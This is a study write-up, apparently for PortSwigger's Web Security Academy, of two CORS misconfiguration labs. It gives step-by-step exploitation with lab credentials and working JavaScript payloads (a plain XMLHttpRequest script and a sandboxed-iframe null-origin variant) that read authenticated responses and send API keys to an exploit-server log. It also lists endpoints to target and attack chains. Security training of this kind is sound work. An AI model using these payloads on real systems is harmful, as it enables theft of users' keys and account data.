



# 🧪 LAB-1 — Insecure CORS (Trusts All Origins)

---

## 🧠 Overview

This lab demonstrates a critical CORS misconfiguration where the server:

Reflects any Origin header
AND allows credentials (cookies)

👉 Result:

Any attacker website can read sensitive user data

---

## 📌 What Is This Topic

Cross-Origin Resource Sharing

Simple meaning:

CORS = server tells browser which websites can read its data

---

## 🔐 Base security (important)

Same-Origin Policy

Blocks reading responses across domains by default

---

## ⚠️ Key Point

CORS is NOT protection
CORS is permission

---

## 🧠 Lab Walkthrough (Step-by-Step)

---

## 🟡 Step 1 — Login & observe

Login: wiener:peter

Go to My Account

---

## 🟡 Step 2 — Find sensitive endpoint

In Burp:

GET /accountDetails

👉 Response contains:

API key (sensitive data)

---

## 🟡 Step 3 — Identify CORS usage

Response header:

Access-Control-Allow-Credentials: true

👉 Means:

Server allows requests with cookies

---

## 🟡 Step 4 — Test vulnerability

In Repeater:

Add:
```
Origin: https://evil.com
```
---

## 🔥 Result
```
Access-Control-Allow-Origin: https://evil.com
```
👉 💥 Vulnerable:

Server trusts ANY origin

---

## 🟡 Step 5 — Build exploit

On exploit server:
```
<script>
var req = new XMLHttpRequest();

req.onload = function() {
    location='/log?key=' + this.responseText;
};

req.open('GET', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.send();
</script>
```
---

## 🟡 Step 6 — Test exploit

Click:

View exploit

👉 Your API key appears in URL

---

## 🟡 Step 7 — Deliver attack

Deliver exploit to victim

---

## 🟡 Step 8 — Retrieve admin key

Go to Access log

Copy admin API key

Submit → lab solved

---

## 🧠 Payload Breakdown (Easy)

---

### 🔹 Request creation
```
var req = new XMLHttpRequest();
```
---

### 🔹 Target endpoint
```
req.open('GET', '/accountDetails')
```
---

### 🔹 Include cookies
```
req.withCredentials = true;
```
---

### 🔹 Send request
```
req.send();
```
---

### 🔹 Steal response
```
location='/log?key=' + this.responseText;
```
---

## 🧠 Attack Flow

Victim logs in
↓
Victim visits attacker site
↓
JS sends request with cookies
↓
Server allows attacker origin
↓
Browser gives response
↓
Attacker steals API key

---

## 🌍 Real-World Scenarios

---

🔴 1. Banking APIs

Endpoints:
```
/account
/transactions
/transfer-history
```
👉 Leak:

balances

transactions

personal info

---

🔴 2. SaaS platforms
```
/api/user
/api/keys
/api/billing
```
👉 Leak:

API tokens

invoices

secrets

---

🔴 3. Admin panels
```
/admin/config
/admin/users
/admin/logs
```
👉 Leak:

admin credentials

system configs

---

🔴 4. Cloud dashboards
```
/api/keys
/api/storage
/api/secrets
```
👉 Leak:

AWS keys

tokens

access secrets

---

## 💰 High-Value Endpoints (Must Check)
```
/accountDetails
/api/me
/api/user
/api/token
/api/key
/api/secret
/api/billing
/api/admin
```
---

## ⚔️ Attack Chains (VERY IMPORTANT)

---

🔗 Chain 1 — CORS + CSRF

CORS → read CSRF token
CSRF → perform action

---

🔗 Chain 2 — CORS + XSS

XSS → run JS inside trusted origin
CORS → steal internal APIs

---

🔗 Chain 3 — CORS + SameSite bypass

Cookies sent (SameSite=None)
CORS misconfig → full data leak

---

🔗 Chain 4 — CORS + OAuth

Steal OAuth tokens via API
→ Account takeover

---

🔗 Chain 5 — CORS + Subdomain takeover

Takeover trusted subdomain
→ Abuse CORS trust
→ Steal data

---

## 🚨 Variations You Must Recognize

---

🟠 Reflection-based CORS

ACAO = Origin header

---

🟠 Wildcard

ACAO: *

---

🟠 Null origin

Origin: null

---

🟠 Partial match

if origin contains "trusted.com"

---

🟠 Regex bypass

trusted.com.attacker.com

---

## 🧠 Mental Model

Browser enforces CORS
Server defines rules
Bad rules = attacker gets access

---

## ⚠️ Key Differences (Exam Critical)

Attack	Impact
CSRF	perform action
CORS	read data

---

## 🛡️ Remediation (Developer View)

- ✔ Use strict whitelist
- ✔ Do NOT reflect Origin
- ✔ Avoid credentials unless necessary
- ✔ Validate exact match

---

## 🎯 Final One-Line Summary

If a server reflects Origin and allows credentials, any attacker site can read sensitive user data.

---

# 🧪 LAB-2 — CORS Trusting null Origin (API Key Theft)

---

## 🎯 CORE IDEA

Server wrongly trusts Origin: null in CORS
→ attacker forces browser to create null origin
→ steals authenticated API data

---

## 🧠 1) VULNERABILITY UNDERSTANDING (DEV SIDE)

What server is doing:

If Origin == null → allow request

AND:

Access-Control-Allow-Credentials: true

👉 Meaning:

Browser is allowed to send cookies + read response cross-origin

---

## 🧠 2) HOW ATTACK WORKS (CONCEPT)

Attacker CANNOT fake Origin manually.

Instead:

Force browser to run code in “no identity context”
→ browser automatically sets Origin = null

---

## 🧠 3) TECHNIQUE USED

🟡 sandbox iframe

HTML sandbox attribute

What it does:

Runs code in isolated environment
→ removes normal origin identity
→ Origin becomes null

---

## 🧠 4) LAB WALKTHROUGH (A → Z)

---

### 🔹 STEP 1 — Login & find endpoint

Login:

wiener:peter

Go to:

My Account → /accountDetails request

---

## 📸 Screenshot — accountDetails Response Shows CORS Enabled



---

### 🔹 STEP 2 — Observe CORS behavior

Response contains:
```
Access-Control-Allow-Credentials: true
```
👉 means cookies are included in cross-origin requests.

---

### 🔹 STEP 3 — Confirm vulnerability (Burp Repeater)

Send request with:

Origin: null

Response:

Access-Control-Allow-Origin: null

👉 Server trusts null ❌

---

## 📸 Screenshot — Origin null Accepted by Server



---

### 🔹 STEP 4 — Build exploit page (FINAL PAYLOAD)

Paste in Exploit Server:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
srcdoc="
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
};
req.open('GET','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
</script>
">
</iframe>
```
---

### 🔹 STEP 5 — Deliver exploit

1. Click Store

2. Click View exploit

3. Click Deliver to victim

---

### 🔹 STEP 6 — Check exploit server logs

You will see:
```
GET /log?key=%7B...encoded data...%7D
```
---

## 📸 Screenshot — Admin API Key in Exploit Server Access Log



---

### 🔹 STEP 7 — Decode response

You used:

👉 Burp Decoder tab 

Result becomes:
```
{
  "apikey": "REAL_ADMIN_KEY"
}
```
---

### 🔹 STEP 8 — Submit key

Copy only:

apikey value

👉 Submit → Lab solved

---

## 🌍 REAL-WORLD SCENARIO (IMPORTANT)

---

### 🟡 Where this happens in real systems:

1. APIs behind dashboards

banking APIs

admin panels

SaaS dashboards

---

2. Internal microservices
```
/accountDetails

/user/profile

/admin/settings
```
---

3. OAuth + analytics systems

Sometimes debug endpoints trust:

Origin: null (mistakenly allowed)

---

## ⚠️ REAL IMPACT

If exploited:

- account takeover
- API key leakage
- admin panel compromise
- session data exposure

---

## 🧠 MULTI-CHAIN ATTACK VIEW

CORS misconfig (null trusted)
+ sandbox iframe trick
+ credentialed request
+ exploit server logging
→ full data exfiltration

---

## 🎯 FINAL MEMORY LINE

Sandbox iframe forces Origin:null, and if server trusts it in CORS, attacker can read authenticated API responses.
